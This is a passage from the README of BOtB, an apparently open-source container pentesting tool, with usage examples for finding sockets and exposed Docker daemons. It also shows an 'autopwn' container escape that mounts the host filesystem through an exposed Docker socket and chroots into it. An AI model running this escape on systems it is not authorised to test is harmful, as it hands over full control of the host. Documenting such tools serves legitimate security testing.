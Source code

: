 BOtb can also be instructed to load settings from a YAML file via the config paramater
```
# ./botb -config=cfg.yml
[+] Break Out The Box
[+] Loading Config: cfg.yml
...
```

The following usage examples will return a Exit Code > 0 by default when an anomaly is detected, this is depicted by "echo $?" which shows the exit code of the last executed command.

### Find UNIX Domain Sockets
```
#./bob_linux_amd64 -socket=true
[+] Break Out The Box
[+] Hunting Down UNIX Domain Sockets from: /
[!] Valid Socket: /var/meh
[+] Finished

#echo $?
1
```


### Find a Docker Daemon
```
#./bob_linux_amd64 -find-docker=true
[+] Break Out The Box
[+] Looking for Dockerd
[!] Dockerd DOCKER_HOST found: tcp://0.0.0.0:2375
[+] Hunting Docker Socks
[!] Valid Docker Socket: /var/meh
[+] Finished

#echo $?
1
```

### Break out from Container via Exposed Docker Daemon
This approach will breakout into an interactive TTY on the host.
```
#./bob_linux_amd64 -autopwn=true    
[+] Break Out The Box
[+] Attempting to autopwn
[+] Hunting Docker Socks
[+] Attempting to autopwn:  /var/meh
[+] Attempting to escape to host...
[+] Attempting in TTY Mode
./docker/docker -H unix:///var/meh run -t -i -v /:/host alpine:latest /bin/sh
chroot /host && clear
echo 'You are now on the underlying host'
You are now on the underlying host
/ # 
```
